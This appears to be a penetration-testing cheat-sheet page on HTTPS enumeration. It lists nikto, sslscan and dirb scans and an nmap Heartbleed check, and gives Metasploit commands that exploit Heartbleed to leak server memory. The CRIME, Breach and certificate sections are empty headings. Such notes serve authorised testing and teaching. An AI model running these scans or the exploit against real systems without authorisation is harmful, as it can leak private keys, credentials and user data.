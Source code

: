 Okay this is only here as a reminder to always check for SSL-vulnerabilities such as heartbleed. For more on how to exploit web-applications check out the chapter on [client-side vulnerabilities](../http-web-vulnerabilities/attacking-the-system/).

## HTTPS Enumeration <a id="443enum"></a>

1. Initial scan for misconfigurations and vulnerabilities with nikto:  
  `nikto -h https://10.10.10.140`

  > Make sure to run scan interesting directories as well!

2. Check SSL/TLS with sslscan: `sslscan`
3. Brute force to find hidden directories and items: `dirb`

## Common Vulnerabilities

**Heartbleed**

OpenSSL 1.0.1 through 1.0.1f \(inclusive\) are vulnerable  
OpenSSL 1.0.1g is NOT vulnerable  
OpenSSL 1.0.0 branch is NOT vulnerable  
OpenSSL 0.9.8 branch is NOT vulnerable

First we need to investigate if the https-page is vulnerable to [heartbleed](http://heartbleed.com/)

We can do that the following way.

```text
sudo sslscan 192.168.101.1:443
```

or using a nmap script

```text
nmap -sV --script=ssl-heartbleed 192.168.101.8
```

You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.

```text
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```

Now you have a flow of random data, some of it might be of interest to you.

**CRIME**

**Breach**

## Certificates

Read the certificate.
